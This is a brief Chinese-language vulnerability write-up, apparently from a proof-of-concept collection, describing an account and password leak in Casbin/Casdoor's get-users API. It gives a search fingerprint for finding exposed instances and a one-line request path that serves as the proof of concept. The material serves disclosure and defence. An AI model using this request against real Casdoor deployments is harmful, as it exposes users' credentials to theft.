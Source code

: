 # 

# Casbin get-users 账号密码泄漏漏洞

## 漏洞描述

Casbin get-users api接口存在账号密码泄漏漏洞，攻击者通过漏洞可以获取用户敏感信息

## 漏洞影响

```
Casbin
```

## 网络测绘

```
title="Casdoor"
```

## 漏洞复现

登录页面

![image-20220524143206718](./images/202205241432780.png)

验证POC

```
/api/get-users?p=123&pageSize=123
```

![image-20220524143215583](./images/202205241432624.png)
